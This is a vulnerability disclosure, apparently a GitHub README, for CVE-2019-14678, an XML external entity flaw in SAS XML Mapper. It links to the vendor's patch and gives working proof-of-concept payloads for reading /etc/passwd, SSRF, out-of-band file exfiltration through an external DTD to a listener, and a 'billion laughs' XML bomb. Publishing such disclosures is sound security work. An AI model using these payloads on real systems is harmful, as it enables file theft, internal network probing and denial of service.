




# CVE-2019-14678: Unsafe XML Parsing in SAS XML Mapper 

SAS XML Mapper contains an XML parsing vulnerability.
<br/>
The vulnerability was discovered on SAS XML Mapper version 9.45.
<br/>
This vulnerability also affects the XMLV2 LIBNAME engine when the AUTOMAP option is used.
<br/>
This vulnerability can be leveraged in multiple ways:
- Reading files directly from the SAS XML Mapper software
- Server Side Request Forgery (SSRF) attacks
- Exfiltrating files remotely via Out of Band (OOB) attacks
- Potential Denial of Service via resource consumption attacks (Ex. XML Bomb)

### Vendor Disclosure:

The vendor's disclosure and patch of this vulnerability can be found [here](http://support.sas.com/kb/64/719.html). 

### Proof Of Concept:

#### Reading files directly from the SAS XML Mapper software

By using the "file://" protocol within a XML DOCTYPE object, an attacker can view directly the contents of arbitrary files directly in the SAS XML Mapper application.
This may represent a serious issue if the XML import and export process are automated by another SAS application, which will result in the attacker receiving the full content of the desired file in the response.
<br/>

Content of "XXE2.xml":
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<foo>&xxe;</foo>
```




#### Server Side Request Forgery (SSRF) attacks

By using Java supported protocols and attacker can launch network attacks targeting other servers within the internal network or exfiltrate remotely certain information of interest:
- "http / https" protocols are commonly used for SSRF with GET parameters
- "smb / file" protocols which in theory can be used to exfiltrate SMB Windows
NetNTLM hashes
- Other protocols which may be leveraged in specific scenarious
<br/>

Content of "XXE.xml":
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ 
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "http://127.0.0.1:4444/SAS-XML-Mapper/XXE" >
%xxe;
]>
```




#### Exfiltrating files remotely via Out of Band (OOB) attacks

This attack can be used to exfiltrate simple files remotely from the victim. In this case the content of an example file is extracted by using a HTTP GET via a OOB XXE attack.
<br/>
Other protocols can be used the achieve this behavior (Ex. Exfiltrate via "ftp://" username, password and/or file path).
<br/>

Content of "XXE-file_exfil.xml":
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "http://127.0.0.1:4444/DTD.txt" >
%xxe;
]>
<foo>&send;</foo>
```
<br/>

Content of "DTD.txt":
```
<!ENTITY % file SYSTEM "file:///home/guest/test_exfil.txt">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://127.0.0.1:4444/?a=%file;'>">
%all;
```
<br/>

Content of "test_exfil.txt":
```
Very_sensitive_content_that_contains_no_special_characters
```




#### Potential Denial of Service via resource consumption attacks (Ex. XML Bomb)

XML Resource attacks, such as XML Bombs (A.K.A. Lol Bombs), may result in resource consumption attacks by leveraging DOCTYPE Entities that expand sand consume the RAM of the victim.
<br/>
The default installation does not seem to be notably affected by this vulnerability, but other applications using XMLV2 LIBNAME engine and/or custom installations may result in the SAS XML Mapper application crashing, and/or in the worst case scenario, the OS itself might crash.
<br/>

Content of "XML_Bomb.xml":
```
<?xml version="1.0"?>
<!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```


